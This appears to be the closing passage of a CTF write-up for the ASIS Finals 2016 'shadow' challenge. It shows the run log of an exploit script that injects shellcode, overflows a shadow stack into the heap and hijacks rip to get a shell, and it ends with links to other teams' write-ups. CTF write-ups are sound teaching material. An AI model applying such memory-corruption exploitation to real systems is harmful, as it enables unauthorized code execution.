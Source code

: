 And here is our final exploit in action:

	$ p2 beer_pwn.py
	[+] Starting local process './shadow': Done
	[3522]
	[\*] Paused (press any to continue)
	[\*] Inserting shellcode into nickname
	[\*] Creating heap chunk
	[\*] Overflowing shadow-stack into heap
	[\*] Overflowing rip and triggering function-pointer call
	[\*] Switching to interactive mode
	$ whoami
	mightymo


## Other write-ups and resources

* [Amrita University bi0s](https://amritabi0s.wordpress.com/2016/09/12/asis-finals-2016-shadow-write-up/)
* [KITCTF](https://github.com/kitctf/writeups/blob/master/asis-finals-2016/shadow/solve.py)
